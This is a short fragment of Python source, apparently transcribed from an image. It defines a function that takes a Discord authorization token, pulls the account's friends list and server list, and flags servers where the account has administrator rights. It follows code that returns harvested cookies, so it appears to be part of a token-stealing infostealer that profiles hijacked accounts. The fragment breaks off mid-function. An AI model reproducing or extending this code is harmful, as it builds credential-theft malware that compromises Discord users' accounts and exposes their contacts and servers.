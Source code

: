     return cookies

def get_discord_info(token):
    """Get detailed Discord information including friends and servers with admin permissions"""
    friends_info = []
    guilds_info = []
    admin_guilds = []
    
    headers = {
        'Authorization': token,
        'Content-Type': 'application/json'
    }
    
    # Get friends list
    try:
        friends_res = requests.get('https://discord.com/api/v9/users/@me/relationships', headers=headers)
        if friends_res.status_code == 200:
            friends_data = friends_res.json()
            for friend in friends_data:
                try:
                    friends_info.append({
                        'id': friend['id'],
                        'username': f"{friend['user']['username']}#{friend['user']['discriminator']}",
                        'type': friend['type']  # 1 = friend, 2 = blocked, 3 = pending
                    })
                except:
                    pass
    except Exception as e:
        pass
    
    # Get guilds (servers)
    try:
        guilds_res = requests.get('https://discord.com/api/v9/users/@me/guilds', headers=headers)
        if guilds_res.status_code == 200:
            guilds_data = guilds_res.json()
            for guild in guilds_data:
                guild_info = {
                    'id': guild['id'],
                    'name': guild['name'],
                    'owner': guild.get('owner', False)
                }
                guilds_info.append(guild_info)
                
                # Check for admin permissions (0x8 is the administrator permission bit)
                permissions = int(guild.get('permissions', 0))
                if permissions & 0x8 or guild.get('owner', False):
                    admin_guilds.append(guild_info)
    except Exception as e:
        pass
    